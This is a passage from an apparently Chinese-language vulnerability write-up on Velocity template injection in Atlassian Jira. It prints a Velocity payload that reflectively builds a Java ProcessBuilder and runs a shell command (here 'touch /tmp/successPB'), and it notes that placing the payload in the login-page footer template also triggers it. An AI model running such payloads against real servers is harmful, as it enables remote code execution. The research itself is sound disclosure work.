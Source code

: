 ```bash
    #set($pbcls=$x.class.forName("java.lang.ProcessBuilder"))
    #set($pbcon=$pbcls.getDeclaredConstructor($list))
    #set($alistcls=$x.class.forName("java.util.ArrayList"))
    #set($arrtest=["/bin/sh","-c","touch /tmp/successPB"])
    #set($pb=$pbcon.newInstance($arrtest))
    $pb.start()


javax.el.ImportHandler:


javax.el.ELManager:
```

### 4、其他触发方式

甚至不需要在发送邮件的时候时候才能够触发模版引擎，测试的过程中一不小心断点没有 mute，在访问邮件发送的页面时，发现也是模版引擎渲染的。

于是我将 payload 放置在`atlassian-jira/WEB-INF/classes/templates/plugins/footer/footer.vm`里面，发现了这样有趣的事，我才意识到。在登陆页面的页脚也同样会触发。

[![](assets/1708149766-7687db230fe73e56de868a91b3fd8f9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173225-ee03ce32-d431-1.png)
